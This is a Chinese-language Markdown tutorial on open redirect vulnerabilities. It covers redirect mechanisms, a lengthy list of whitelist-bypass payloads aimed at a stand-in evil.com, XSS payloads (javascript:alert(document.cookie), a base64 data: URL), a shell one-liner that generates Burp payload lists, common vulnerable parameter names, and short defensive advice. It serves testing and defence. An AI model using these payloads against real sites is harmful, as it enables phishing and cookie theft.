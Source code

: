 ### 简介

任意重定向(Open Redirection)

### 漏洞原理

* 跳转方式1 HTTP Response Code & Header
  * HTTP Response Status Code - Redirection `3xx`
    - [300 Multiple Choices](https://httpstatuses.com/300)
    - [301 Moved Permanently](https://httpstatuses.com/301)
    - [302 Found](https://httpstatuses.com/302)
    - [303 See Other](https://httpstatuses.com/303)
    - [304 Not Modified](https://httpstatuses.com/304)
    - [305 Use Proxy](https://httpstatuses.com/305)
    - [307 Temporary Redirect](https://httpstatuses.com/307)
    - [308 Permanent Redirect](https://httpstatuses.com/308)
  * HTTP Response Header
    - `Location: `
* 跳转方式2 `meta`标签
    - 绝对路径 `<meta http-equiv="Refresh" content="0; url=https://www.w3docs.com" />` 0秒跳转
    - 相对路径 `<meta http-equiv="Refresh" content="3.5; url=../" />` 3.5秒跳转
* 跳转方式3 Javascript实现跳转
  * 1.`window.location.href`
    * 绝对路径 `window.location.href='http://evil.com';`
      * 如果参数可控则能XSS `window.location.href="javascript:alert(document.cookie)";`
    * 相对路径 `window.location.href='../../';`  会从当前url`http://a.com/1/2/3/`跳转到`http://a.com/1/`
      * 如果`../`非常多则跳转到`http://a.com/`
  * 2.`window.location.replace`
    * 绝对路径 `location.replace("http://new.tld?para=1#title");`
      * 如果参数可控则能XSS `location.replace("javascript:alert(document.cookie)");`
    * 相对路径 `location.replace("../");`
  * 3.待补充


**触发漏洞**
```
访问
https://famous-website.tld/signup?redirectUrl=https://evil.tld/account
浏览器访问famous-website.tld 如果被重定向到域evil.tld 则存在任意重定向漏洞
```

### 漏洞影响

* 任意重定向(Open Redirection)漏洞影响
  * redirection - 合法域名white.com下 实现重定向 到"钓鱼"等其他网站
  * XSS - 合法域名white.com下 实现XSS

### 测试方法

有一定安全意识的开发人员会对"跳转目的值"使用"关键字白名单"进行校验，我们尝试利用这些"关键字白名单"来绕过不够严谨的校验

尝试找到并利用aaa.com的任意重定向漏洞 跳转到evil.com

* 手工测试 - 任意重定向漏洞导致的跳转 - "跳转目的值"
  * 使用特定子域名绕过不严谨的"关键字白名单"校验   `www.aaa.com.evil.com`
  * 使用`@`绕过白名单机制                        `http://www.aaa.com@evil.com/`
  * 使用参数污染 绕过白名单机制                   `?next=whitelisted.com&next=evil.com`
  * 使用子文件夹名 绕过白名单机制                 `http://www.evil.com/http://www.aaa.com/` `http://www.evil.com/folder/www.aaa.com`
  * 使用CRLF绕过对字符串`javascript`的检测和限制  `java%0d%0ascript%0d%0a:alert(0)`
  * 使用`//`绕过对字符串`http`的检测和限制        `//evil.com`
  * 使用`https:`绕过对字符串`//`的检测和限制      `https:evil.com`
  * 使用`\/\/` 绕过对字符串`//`的检测和限制       `\/\/evil.com/` `/\/evil.com/`
  * 使用`。`即%E3%80%82绕过对`.`的检测和限制      `/?redir=evil。com`  `//evil%E3%80%82com`
  * 使用%00绕过黑名单机制                        `//evil%00.com`
  * ...
* 手工测试 - 任意重定向漏洞导致的XSS
  * XSS from Open URL  `";alert(0);//`
  * XSS from `data://` wrapper   `http://www.aaa.com/redirect.php?url=data:text/html;base64,PHNjcmlwdD5hbGVydCgiWFNTIik7PC9zY3JpcHQ+Cg==`
  * XSS from `javascript://` wrapper  `http://www.aaa.com/redirect.php?url=javascript:prompt(1)`
* 自动化测试 - 测试是否存在"任意重定向漏洞" (跳转+XSS)

```shell
# 步骤1. 下载PayloadsAllTheThings项目

# 步骤2. 执行命令 生成"任意重定向漏洞"payloads
# 说明: 其中qq.com为正常业务可跳转的白域名 我们的目的是设法跳转到so.com
cd ~/Downloads/PayloadsAllTheThings/Open\ Redirect/Intruder && WHITELISTEDDOMAIN="qq.com" && sed -e 's/www.whitelisteddomain.tld/'"$WHITELISTEDDOMAIN"'/' -e 's/google.com/so.com/' Open-Redirect-payloads.txt > Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt && echo "$WHITELISTEDDOMAIN" | awk -F. '{print "https://"$0"."$NF}' >> Open-Redirect-payloads-burp-"$WHITELISTEDDOMAIN".txt

# 步骤3. 发送payloads
```

**常出现跳转漏洞的功能点**
```
1.登录、注销处的URL跳转
```

**常出现跳转漏洞的URL格式**
```
/{payload}
?next={payload}
?url={payload}
?target={payload}
?rurl={payload}
?dest={payload}
?destination={payload}
?redir={payload}
?redirect_uri={payload}
?redirect_url={payload}
?redirect={payload}
/redirect/{payload}
/cgi-bin/redirect.cgi?{payload}
/out/{payload}
/out?{payload}
?view={payload}
/login?to={payload}
?image_url={payload}
?go={payload}
?return={payload}
?returnTo={payload}
?return_to={payload}
?checkout_url={payload}
?continue={payload}
?return_path={payload}
```

### SDL - 防御与修复方案

* 如果有非法字符return false
* 严格限制参数值内容-"关键字白名单"
* 严格限制参数值长度
* ...

>参考[PayloadsAllTheThings/Open Redirect/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Open%20Redirect/README.md)

